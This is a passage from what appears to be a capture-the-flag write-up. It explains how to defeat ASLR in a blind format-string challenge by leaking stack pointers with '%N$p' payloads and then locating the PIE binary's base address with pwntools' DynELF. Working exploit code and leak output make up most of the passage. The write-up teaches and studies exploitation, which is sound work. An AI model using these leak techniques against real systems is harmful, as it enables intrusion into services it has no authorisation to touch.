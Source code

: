 ## (Actual) Un-blinding

Before we can leak the binary, we need to find it in virtual memory - and we need to be careful because we might segfault. Usually (my experience) for 64bit binaries on linux, they will be loaded into `0x400000`, but this might be position independent executable (PIE) and thus be prone to ASLR. Attempting to leak `0x400000`, we find that the connection dies. We can however print the stack, so lets check if we can find something useful there (the choice of `30` for the loop is quite arbitrary):
```python
for i in range(7,30):
  r.sendafter(b">> ", f'%{i}$p'.encode())
  leak = r.recvline().decode().strip()
  log.info(str(i) + ': ' + leak)
```
Giving output 
```
[*] 7: (nil)
[*] 8: (nil)
[*] 9: (nil)
[*] 10: (nil)
[*] 11: (nil)
[*] 12: (nil)
[*] 13: (nil)
[*] 14: 0x55de34ca0000
[*] 15: 0x865bc19c13c24500
[*] 16: 0x7ffced0bcbc0
[*] 17: 0x55de34cad7f8
[*] 18: 0x7ffced0bccb0
[*] 19: 0x865bc19c13c24500
[*] 20: 0x55de34cad870
[*] 21: 0x7ffa82c35d0ai
[*] 22: 0x7ffced0bccb8
[*] 23: 0x100000000
[*] 24: 0x55de34cad7bd
[*] 25: 0x7ffa82c357cf
[*] 26: (nil)
[*] 27: 0x84290c4abe96b433
[*] 28: 0x55de34cad120
[*] 29: (nil)
```
The kernel on common linux distirbutions usually loads (in my experience) PIE binaries into addresses starting with `0x55...` or `0x56...`.

Assuming this is a ELF binary and that we can get such a leak, we can further check/leak backwards in virtual memory at the start of each page, until we reach the ELF header, as the binary will be loaded into virtual memory in a page-aligned fashion. I initially made some code for this myself, but `DynELF` from `pwntools` also works great (and I also think it uses the same idea):
```python
bptr = None
for i in range(7,30):
  r.sendafter(b">> ", f'%{i}$p'.encode())
  leak = r.recvline().decode().strip()
  if not bptr and ('0x55' == leak[:4] or '0x56' == leak[:4]):
    bptr = int(leak, 16)
    break

base = DynELF.find_base(leaker, bptr)
```
